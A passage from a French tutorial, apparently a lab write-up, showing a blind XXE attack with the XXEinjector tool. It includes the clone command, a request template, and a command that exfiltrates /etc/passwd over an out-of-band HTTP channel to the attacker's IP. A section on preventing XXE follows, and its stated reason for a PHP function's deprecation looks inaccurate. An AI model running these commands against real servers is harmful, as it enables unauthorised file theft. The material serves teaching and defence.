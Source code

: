 1. Clonons le dépôt :

```bash
git clone https://github.com/enjoiz/XXEinjector.git
```

2. Préparons une requête HTTP :

```http
POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.201.94
Content-Length: 169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.201.94
Referer: http://10.129.201.94/blind/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```

3. Exécutons XXEinjector :

{% code overflow="wrap" fullWidth="true" %}
```bash
ruby XXEinjector.rb --host=[NOTRE_IP] --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter
```
{% endcode %}

4. Récupérons les données exfiltrées dans `Logs/10.129.201.94/etc/passwd.log`.

***

{% hint style="warning" %}
#### <mark style="color:green;">**Prévention des attaques XXE (XML External Entity)**</mark>

Les vulnérabilités **XXE** surviennent principalement lorsqu'un XML non sécurisé fait référence à une entité externe, permettant d'accéder à des fichiers sensibles ou d'exécuter des actions malveillantes. Voici les principales méthodes de prévention :

**1. Mettre à jour les bibliothèques XML**

* Les vulnérabilités XXE sont souvent dues à des bibliothèques XML obsolètes.
* Exemple : **libxml\_disable\_entity\_loader** en PHP est obsolète depuis PHP 8.0 car il permet d'activer les entités externes de manière dangereuse.

**2. Utiliser des configurations XML sécurisées**

* **Désactiver les DTDs personnalisés** et les **entités XML externes**.
* **Désactiver le traitement des entités paramétrées** et le **support de XInclude**.
* **Empêcher les boucles de référence d'entités**.
